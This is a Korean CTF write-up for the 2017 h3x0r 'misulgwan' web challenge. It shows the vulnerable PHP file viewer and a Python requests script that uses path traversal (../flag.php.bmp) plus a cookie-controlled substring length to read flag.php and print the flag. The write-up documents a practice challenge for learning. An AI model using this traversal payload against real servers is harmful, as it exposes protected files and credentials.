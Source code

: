 # 2017 h3x0r web misulgwan

## Key words

- $\_COOKIE usage
- passthru
- view-source

## Solution

문제에 접속하고, 소스 보기를 하면 `view.php?view-source`라는 기능으로 소스 보기를 할 수 있었습니다.

```php
welcome to misulgwan. <?php
error_reporting(0);
include 'flag.php'; # flag is in the flag.php

if(isset($_GET['image'], $_COOKIE['length'])){
    if(preg_match("/_/", $_GET['image'])) exit("no hack");
    $ext = explode(".", strrev($_GET['image']));
    $ext = strrev($ext[0]);
    if(!preg_match("/png|jpg|bmp/i", $ext)) exit("no hack");

    $image = substr($_GET['image'], 0, $_COOKIE['length']);
    $view = fopen("./image/".$image, 'rb');

    header("Content-Type: image/png");
    fpassthru($view);
}
else {
    echo "welcome to misulgwan.";
}

if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
}
?>
```
플래그를 얻기 위한 조건으로는 다음과 같습니다.

- `$_GET['image']`, `$_COOKIE['length']` 설정
- `$_GET['image']`에는 `_` 이 들어 갈 수 없음
- `$_GET['image']`를 `.` 으로 Split한 결과에 `png|jpg|bmp`가 존재해야 함
- `flag.php`를 불러와야 함

결론적으로 `$view`의 위치가 `./flag.php`가 될 수 있도록 `$image`를 맞추어야 합니다.

먼저 위의 조건을 회피 하기 위해 아래와 같이 1차 쿼리를 제작합니다.

>?image=../flag.php.bmp

이와 같이 만들어 주면 `fopen`시 다음과 같이 동작 합니다.

```php
$view = fopen("./image/../flag.php.bmp", "rb");
```

문제는 여기서 뒷 부분의 `.bmp` 확장자 인데 소스코드를 잘 확인해보면 `$_COOKIE['length']`를 통해 이미지명을 짤라 줍니다.

```php
$image = substr($_GET['image'], 0, $_COOKIE['length']);
```

우리가 넣은 쿼리는 `../flag.php.bmp` 이며 `substr("../flag.php.bmp", 0, 11)`을 하게 되면 결과적으로 `../flag.php`남게 되기 때문에 `$_COOKIE['length']`의 값을 11로 만들어서 쿼리를 합니다.

## Code

```python
import requests

url = "http://39.120.34.116:12345/misulgwan/view.php"
headers = {"Cookie": "length=11;"}
params  = { "image": "../flag.php.bmp" }
r = requests.get(url, params=params, headers=headers)

print r.content

''' result
<?php
# Congratulation!!!!
# H3X0R{munhwabaek_is_back}
?>
'''
```
